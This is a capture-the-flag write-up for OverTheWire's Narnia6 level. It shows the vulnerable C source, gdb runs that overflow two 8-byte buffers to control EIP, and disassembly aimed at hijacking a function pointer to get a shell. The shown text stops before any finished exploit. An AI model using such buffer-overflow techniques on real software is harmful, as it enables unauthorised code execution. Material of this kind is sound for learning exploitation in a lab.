 #Narnia6

narnia.labs.overthewire.org

**Username:** narnia6
**Password:** see [narnia5](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria5)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Let's see what we're working with.
>
>```
# ./narnia6
./narnia6 b1 b2
>```
>
> Not a lot happening, let's look at the source.
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
>
extern char **environ;
>
// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}
>
int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;
>
	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }
>
	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));
>
	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);
>
	exit(1);
}
>```
>
> So this looks a little more complex than the previous challenges.  I'm not the best with ```C```, so let's start from the top.  The first bit that I don't quite get is the ```int  (*fp)(char *)=(int(*)(char *))&puts, i;```.  Let's see what's going on here.  After a little googling I was able to get a little information on this line.  Basically we can read this as two separate declarations.  The first is a function pointer ```(*fp)``` to the function ```puts``` and the second is just for an integer ```i```.  That function pointer sounds interesting and really dangerous.  If we can change the pointer to point to something better than ```puts```, then when ```fp(b1)``` is called it will pass our user input to that other function.  I don't see any reference to ```/bin/sh``` in the code like some of the previous challenges so we'll have to find another way to spawn a shell. Let's just poke around a little bit and see if we can find anything.
>
>```
(gdb) run $(python -c 'print "A"') $(python -c 'print "A"*20')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/narnia6 $(python -c 'print "A"') $(python -c 'print "A"*20')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run $(python -c 'print "A"*12') $(python -c 'print "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/narnia6 $(python -c 'print "A"*12') $(python -c 'print "A"')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
>```
>
> Well, it looks like we can overflow both parameters but our input doesn't appear to be large enough to stuff shellcode code in there.  We'll have to come up with another way.  Let's go back to the function pointer and take a closer look at that.
>
>```asm
             main:
08048559         push       ebp                                                 ; XREF=_start+23
0804855a         mov        ebp, esp
0804855c         push       ebx                                                 ; argument #1
0804855d         and        esp, 0xfffffff0
08048560         sub        esp, 0x30
08048563         mov        dword [ss:esp+0x28], 0x80483f0
0804856b         cmp        dword [ss:ebp+arg_0], 0x3
0804856f         je         0x8048592
>```
>
> We can see that the function pointer is saving the address ```0x80483f0``` to the stack.  Let's move to gdb and see if we can actually get the memory address where the function pointer is pointing to.
>
>```asm
08048657         mov        eax, dword [ss:ebp+arg_4]
0804865a         add        eax, 0x4
0804865d         mov        eax, dword [ds:eax]
0804865f         mov        dword [ss:esp+0x4], eax                             ; argument "src" for method j_strcpy
08048663         lea        eax, dword [ss:esp+0x20]
08048667         mov        dword [ss:esp], eax                                 ; argument "dst" for method j_strcpy
0804866a         call       j_strcpy
0804866f         mov        eax, dword [ss:ebp+arg_4]
08048672         add        eax, 0x8
08048675         mov        eax, dword [ds:eax]
08048677         mov        dword [ss:esp+0x4], eax                             ; argument "src" for method j_strcpy
0804867b         lea        eax, dword [ss:esp+0x18]
0804867f         mov        dword [ss:esp], eax                                 ; argument "dst" for method j_strcpy
08048682         call       j_strcpy
08048687         mov        eax, dword [ss:esp+0x28]
0804868b         and        eax, 0xff000000
08048690         mov        ebx, eax
08048692         call       get_sp
08048697         cmp        ebx, eax
08048699         jne        0x80486a7
>```
>```asm
             j_printf:
080483d0         jmp        dword [ds:printf@GOT]                               ; printf@GOT, XREF=main+40
>```
